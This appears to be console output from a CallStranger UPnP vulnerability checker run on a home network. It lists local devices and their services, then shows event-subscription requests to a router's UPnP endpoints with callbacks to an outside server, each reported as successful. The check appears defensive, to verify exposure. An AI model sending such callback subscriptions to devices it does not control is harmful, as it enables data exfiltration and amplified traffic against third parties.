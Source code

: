     OturmaTV http://192.168.1.22:49154 ( http://192.168.1.22:49154/nmsDescription.xml )
    
      2 service(s) found for OturmaTV
         urn:schemas-upnp-org:service:ContentDirectory:3    --> http://192.168.1.22:49154/upnp/event/ContentDirectoryNmsO
         urn:schemas-upnp-org:service:ConnectionManager:2   --> http://192.168.1.22:49154/upnp/event/ConnectionManagerNmsO
    
     XboxOne http://192.168.1.24:2869 ( http://192.168.1.24:2869/upnphost/udhisapi.dll?content=uuid:e69c8b0b-8a9d-4811-839e-c94650077ee0 )
    
      0 service(s) found for XboxOne
    
     XboxOne http://192.168.1.24:2869 ( http://192.168.1.24:2869/upnphost/udhisapi.dll?content=uuid:e4d56268-9801-43d2-b1cf-0dbf71d3c06c )
    
      3 service(s) found for XboxOne
         urn:schemas-upnp-org:service:RenderingControl:1    --> http://192.168.1.24:2869/upnphost/udhisapi.dll?event=uuid:e4d56268-9801-43d2-b1cf-0dbf71d3c06c+urn:upnp-org:serviceId:RenderingControl
         urn:schemas-upnp-org:service:AVTransport:1         --> http://192.168.1.24:2869/upnphost/udhisapi.dll?event=uuid:e4d56268-9801-43d2-b1cf-0dbf71d3c06c+urn:upnp-org:serviceId:AVTransport
         urn:schemas-upnp-org:service:ConnectionManager:1   --> http://192.168.1.24:2869/upnphost/udhisapi.dll?event=uuid:e4d56268-9801-43d2-b1cf-0dbf71d3c06c+urn:upnp-org:serviceId:ConnectionManager
    
     Total 20 service(s) found. do you want to continue to VERIFY if service(s) are vulnerable?
    Be careful: This operation needs Internet access and may transfer data about devices over network. Data encrypted on local and we cant see which services are vulnerable but ISPs and other elements may be able to inspect HTTP headers created by UPnP device. Because most of UPnPstack do not allow SSL connection we can not use it.
    Do you want to continue? y/N y
    Successfully get session:nae9lqq3keg79l3qei9ahohvqe
    Symmetric random key for encryption: b'yy8e8uAg4kV-oSAuvdxrJBPwxMHx0JuEm1BsYXCzBYE='  We do not send this value to server so we can not see which services are vulnerable. All confirmation process is done on client side
    Calling stranger for  http://192.168.1.1:37215/evt/Layer3Forwarding_1 with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWNsB6Kv35geEsxbkkrAgED5So1wLhWURjcFwkyJ9h7w21BtUmbBmzAQ_YTgN-168MatiFy-skmKyTcleLkVKn5iv6xhEcY5DGiH_MJbeeZ77_AmgM_UF4dqqXsIdHJmROk&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.1:37215/evt/Layer3Forwarding_1 seems successfull
    {'Server': 'ATP UPnP Core', 'TIMEOUT': 'Second-1800', 'SID': 'uuid:50898211-6467-9505-1115-309761531064', 'Date': 'Mon, 08 Jun 2020 07:15:22 GMT', 'Content-Length': '0'}
    
    Calling stranger for  http://192.168.1.1:37215/evt/WANCommonInterfaceConfig_1 with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWN7k769GzqT9VpIDZr2e93mpy8uz70lvmdxGSssRVWvn6Q8nGvA7nmKEVU4nWTA5c4eelJ7T2U8hGxvwVLlTl15LZ2_XH8boVyb45wS5oPB93CdwqUU0T1hHDDY5r4AFEjcmhHvYtx8RC_tAzm2eRk7w==&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.1:37215/evt/WANCommonInterfaceConfig_1 seems successfull
    {'Server': 'ATP UPnP Core', 'TIMEOUT': 'Second-1800', 'SID': 'uuid:07788594-5417-8052-8862-186260512738', 'Date': 'Mon, 08 Jun 2020 07:15:22 GMT', 'Content-Length': '0'}
    
    Calling stranger for  http://192.168.1.1:37215/evt/WANPPPConnection_1 with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWN5YhNQVAQagPd3LpBocI7jwkv8caPKiPAfeeD5X1uNSFZ7mfTWB3QwFcsVcbFln5JrVD3mlvHzD3UrYUC0VK_uRHd_c2K-m6h_Od2NUNB1dduNNMh7rMa0a2Wlq8WxxZn&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.1:37215/evt/WANPPPConnection_1 seems successfull
    {'Server': 'ATP UPnP Core', 'TIMEOUT': 'Second-1800', 'SID': 'uuid:82456222-8470-4699-7387-649194725316', 'Date': 'Mon, 08 Jun 2020 07:15:22 GMT', 'Content-Length': '0'}
    
